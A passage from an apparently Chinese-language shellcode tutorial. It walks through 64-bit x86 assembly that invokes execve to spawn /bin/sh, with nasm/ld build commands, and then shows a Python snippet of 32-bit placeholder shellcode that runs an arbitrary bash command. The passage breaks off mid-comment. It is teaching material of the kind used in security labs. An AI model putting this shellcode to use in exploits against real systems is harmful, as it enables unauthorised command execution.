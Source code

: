 ## 2. 64位

### 2.1. 编写汇编

64位程序的传参方式和系统调用方式发生了变化，32位通过int 0x80来触发系统调用，而64位使用syscall：
- rax = 0x3b: execve系统调用号
- rdi = "/bin/sh"的地址
- rsi = 参数数组argv的地址
- rdx = 环境变量（置0）

```asm
; shellcode64.asm
section .text
global _start

_start:
  ; 通过寄存器构造"/bin/sh"字符串
  xor  rdx, rdx       ; rdx = 0 (环境变量指针)
  push rdx
  mov  rax, 0x68732f6e69622f2f ; "/bin//sh"
  push rax
  mov  rdi, rsp       ; rdi指向字符串地址

  ; 设置参数数组
  push rdx            ; argv[1] = NULL
  push rdi            ; argv[0] = "/bin//sh"
  mov  rsi, rsp       ; rsi指向argv数组

  ; 调用execve
  xor  rax, rax
  mov  al, 0x3b       ; syscall号：execve=59
  syscall             ; 触发系统调用
```

通过以下命令编译、链接、执行，我们可以观察到该程序创建了一个新的shell：

```bash
nasm -f elf64 shellcode64.asm
ld -s shellcode64.o -o shellcode64
./shellcode64
# 进入/bin/sh
$ 
```

### 2.2. 生成Shellcode

生成方法与上面介绍的为32位生成Shellcode一样

## 3. 占位符式Shellcode

```python
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
```
